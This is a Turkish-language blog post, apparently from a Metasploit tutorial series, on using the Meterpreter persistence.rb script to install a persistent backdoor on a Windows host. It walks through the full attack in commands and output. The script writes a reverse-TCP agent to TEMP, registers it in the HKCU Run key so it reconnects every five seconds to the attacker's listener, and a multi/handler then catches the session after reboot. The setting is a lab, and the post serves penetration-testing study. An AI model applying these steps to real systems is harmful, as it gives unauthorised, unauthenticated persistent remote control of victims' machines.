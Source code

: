```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcı Backdoor'
date: '2017-06-15T13:57:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de\_persistence.rb\_script kodunu kullanmaktır." 
 
url:  /tr/msf-meterpreter-kalici-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Persistence.rb



Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de `persistence.rb` script kodunu kullanmaktır.



Bu yöntem sayesinde, hedef bilgisayar güncellense bile tekrar bağlanma imkanınız bulunmaktadır. Ayrıca, hedef sistemin tekrar başlatılması da bağlantı yapmayı etkilemeyecektir.



Bir önceki konuda, `metsvc` için yaptığımız uyarıyı burada da tekrarlayalım. `persistence.rb` arka kapısı, bağlantı için herhangi bir oturum bilgisi kullanmaz. Bu açıklığı keşfeden herkes bağlantı sağlayabilir.



Hedef sistemde meterpreter oturum açtıktan sonra `persistence.rb` script kodunu kullanmadan önce yardım bilgilerini görüntüleyelim ve bize hangi imkanları sağladığını görelim.


```bash
meterpreter > run persistence -h

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
**[!]** Example: run post/windows/manage/persistence_exe OPTION**=**value **[**...]
Meterpreter Script **for **creating a persistent backdoor on a target host.

OPTIONS:

    -A   Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location **in **target host to write payload to, **if **none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S   Automatically start the agent on boot as a service **(**with SYSTEM privileges**)**
    -T   Alternate executable template to use
    -U   Automatically start the agent when the User logs on
    -X   Automatically start the agent when the system boots
    -h   This help menu
    -i   The interval **in **seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening **for **the connect back
```



Aşağıdaki `persistence -U -i 5 -p 443 -r 192.168.1.71` komutu hangi işlemleri yapıyor?



`-U`, bir kullanıcı oturum açtığında bizim bilgisayarımıza otomatik bağlantı yapılmasını sağlar.



`-i 5` Karşe taraftaki `persistence.rb` script kodu her 5 saniyede bir bize bağlanmaya çalışır.



`-p 443` bizim dinleme yapan bilgisayarımızın dinleme yaptığı port numarasıdır.



`-r 192.168.1.71` bizim dinleme yapan bilgisayarımızın IP numarasıdır.


```bash
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
> Creating a persistent agent: LHOST**=**192.168.1.71 LPORT**=**443 **(**interval**=**5 onboot**=**true**)**
> Persistent agent script is 613976 bytes long
> Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
> Agent executed with PID 492
> Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```



Verdiğimiz komut sonucunda başlatılan script, çıktılarda da görüleceği gibi işimiz tamamlandığında log temizleme işleminin nasıl yapılabileceğini de gösteriyor.


```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```



Scriptin çalışıp çalışmadığını ve otomatik bağlantı yapıp yapmadığını, hedef bilgisayarı tekrar başlatarak anlayabiliriz. Hedef bilgisayarı yeniden başlatalım.


```bash
meterpreter > reboot
Rebooting...
meterpreter > exit

> Meterpreter session 3 closed.  Reason: User exit
```



Dinleyici `exploit/multi/handler` modülünü tekrar başlatalım.


```bash
msf exploit**(**ms08_067_netapi**)** > use exploit/multi/handler
msf exploit**(**handler**)** > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**handler**)** > set LHOST 192.168.1.71
LHOST **=>** 192.168.1.71
msf exploit**(**handler**)** > set LPORT 443
LPORT **=>** 443
msf exploit**(**handler**)** > exploit

> Started reverse handler on 192.168.1.71:443
> Starting the payload handler...
```



Hedef bilgisayar tekrar başladığında, oturum açılır açılmaz yerel bilgisayara bağlantı, aşağıda görüldüğü gibi tekrar sağlanacaktır.


```bash
> Sending stage **(**748544 bytes**)** to 192.168.1.161
> Meterpreter session 5 opened **(**192.168.1.71:443 -> 192.168.1.161:1045**)** at 2010-08-21 12:31:42 -0600

meterpreter > sysinfo
Computer: XEN-XP-SP2-BARE
OS      : Windows XP **(**Build 2600, Service Pack 2**)**.
Arch    : x86
Language: en_US
meterpreter >```
